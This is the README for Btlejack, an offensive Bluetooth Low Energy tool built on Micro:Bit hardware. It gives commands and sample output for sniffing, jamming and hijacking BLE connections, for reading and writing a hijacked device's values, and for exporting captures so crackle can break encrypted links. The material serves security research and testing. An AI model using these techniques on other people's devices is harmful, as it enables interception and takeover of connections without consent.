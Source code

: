 BtleJack: a new Bluetooth Low Energy swiss-army knife
=====================================================

Btlejack provides everything you need to sniff, jam and hijack Bluetooth Low Energy devices. It relies on one or more BBC Micro:Bit devices running a dedicated firmware.

**This tool only supports Bluetooth Low Energy 4.x.**

How to install
--------------

First, install the `btlejack` Python3 client software with Pip:

```$ sudo pip3 install btlejack```

Then, connect your Micro:Bit device to your computer with a USB cable, and issue the following command:

```$ btlejack -i```

This will program every Micro:Bit device connected to your computer, and make
them ready to use with Btlejack.

You're all set !

How to use Btlejack
-------------------

Using Btlejack is quite easy. Btlejack can:
- sniff an existing BLE connection
- sniff new BLE connections
- jam an existing BLE connection
- hijack an existing BLE connection
- export captured packets to various PCAP formats

### Sniffing an existing connection

First, find some existing connection to target with `btlejack`:

``` text
$ btlejack -s
BtleJack version 1.1

[i] Enumerating existing connections ...
[ - 54 dBm] 0xcd91d517 | pkts: 1
[ - 46 dBm] 0xcd91d517 | pkts: 2
```

The first value (in dBm) shows the power of the signal, the greater this value is the better the sniffed connection will be.

Then, use the `-f` option to follow a specific connection:

``` text
$ btlejack -f 0xdda4845e
BtleJack version 1.1

[i] Detected sniffers:
 > Sniffer #0: fw version 1.1

[i] Synchronizing with connection 0xdda4845e ...
✓ CRCInit: 0x2a035e
✓ Channel Map = 0x1fffffffff
✓ Hop interval = 39
✓ Hop increment = 15
[i] Synchronized, packet capture in progress ...
LL Data: 02 07 03 00 04 00 0a 03 00
LL Data: 0a 08 04 00 04 00 0b 5a 69 70
LL Data: 02 07 03 00 04 00 0a 03 00
LL Data: 0a 08 04 00 04 00 0b 5a 69 70

```


### Sniffing for new connections

The `-c` option supported by `btlejack` allows you to specify the target BD address, or you may want to use `any` to capture any new connection created.

``` text
$ btlejack -c any
BtleJack version 1.1

[i] Detected sniffers:
 > Sniffer #0: version 1.1
 > Sniffer #1: version 1.1
LL Data: 05 22 df b4 6f 95 c5 55 c0 0a f6 99 23 40 1d 7b 2f 0a 9a f4 93 01 12 00 27 00 00 00 d0 07 ff ff ff ff 1f 0b
[i] Got CONNECT_REQ packet from 55:c5:95:6f:b4:df to 40:23:99:f6:0a:c0
 |-- Access Address: 0x0a2f7b1d
 |-- CRC Init value: 0x93f49a
 |-- Hop interval: 39
 |-- Hop increment: 11
 |-- Channel Map: 1fffffffff
 |-- Timeout: 20000 ms

LL Data: 03 09 08 0f 00 00 00 00 00 00 00
LL Data: 03 09 08 0f 00 00 00 00 00 00 00
LL Data: 0b 06 0c 08 0f 00 09 41
LL Data: 03 06 0c 07 1d 00 d3 07
```

### Jamming a connection

Once a connection identified by its *access address*, you can provide jam it by using the `-j` option:

```$ btlejack -f 0x129f3244 -j̀```


### Hijacking a BLE connection

Btlejack is also able to hijack an existing connection, use the `-t` option to do so. Once hijacked, Btlejack will give you a prompt allowing you to interact with the hijacked device.

First, hijack an existing connection:

```
$ btlejack -f 0x9c68fd30 -t -m 0x1fffffffff
BtleJack version 1.1

[i] Using cached parameters (created on 2018-08-11 01:48:24)
[i] Detected sniffers:
 > Sniffer #0: fw version 1.1

[i] Synchronizing with connection 0x9c68fd30 ...
✓ CRCInit: 0x81f733
✓ Channel map is provided: 0x1fffffffff
✓ Hop interval = 39
✓ Hop increment = 9
[i] Synchronized, hijacking in progress ...
[i] Connection successfully hijacked, it is all yours \o/
btlejack>
```

Then use the following commands to interact with the device:
- **discover**: performs services and characteristics enumeration, will give you all the information about services and characteristics
- **write**: write data to a specific value handle
- **read**: read data from a specific value handle
- **ll**: sends a raw link-layer packet (for ninjas)

#### *discover* command

The discover command will send and receive Bluetooth LE packets and retrieve all the services UUIDs and parameters, as well as characteristics UUIDs and parameters:

```
btlejack> discover
start: 0001 end: 0005
start: 0014 end: 001a
start: 0028 end: ffff
 Discovered services:
Service UUID: 1801
 Characteristic UUID: 2a05
   | handle: 0002
   | properties: indicate  (20)
   \ value handle: 0003

Service UUID: 1800
 Characteristic UUID: 2a04
   | handle: 0019
   | properties: read  (02)
   \ value handle: 001a

 Characteristic UUID: 2a00
   | handle: 0015
   | properties: read  (02)
   \ value handle: 0016

 Characteristic UUID: 2a01
   | handle: 0017
   | properties: read  (02)
   \ value handle: 0018

Service UUID: 1824
 Characteristic UUID: 2abc
   | handle: 0029
   | properties: write indicate  (28)
   \ value handle: 002a
```

#### *read* command

The `read` command accepts a single parameter, the value handle corresponding to the characteristic you want to read from:

```
btlejack> read 0x16
read>> 4c 47 20 77 65 62 4f 53 20 54 56
```

#### *write* command

The `write` command accepts three parameters:

```
btlejack> write <value handle> <data format> <data>
```

Supported data formats:
- `hex`: Hex data (i.e. "414261")
- `str`: Text string, may be encapsulated in double quotes

#### *ll* command

This last command allows you to send Bluetooth Low Energy Link-layer PDUs, in hex form, as specified in Volume 6, Part B, Chapter 2.4.


### PCAP file export

One interesting feature of Btlejack is the possibility to export the captured data to a PCAP file.

Btlejack supports the following DLT formats:
- DLT_BLUETOOTH_LE_LL_WITH_PHDR (same)
- DLT_NORDIC_BLE (the one used by Nordic' sniffer)
- DLT_BLUETOOTH_LE_LL (supported on latest versions of Wireshark)

The output file may be specified using the `-o` option, while the output format may be specified with the `-x` option. Valid formats values are: `ll_phdr`, `nordic`, or `pcap` (default).

```
$ btlejack -f 0xac56bc12 -x nordic -o capture.nordic.pcap
```

The `ll_phdr` export type is useful when sniffing an encrypted connection, as it is also supported by [crackle](https://github.com/mikeryan/crackle). So if you want to sniff and break encrypted connections, this is the way to go.
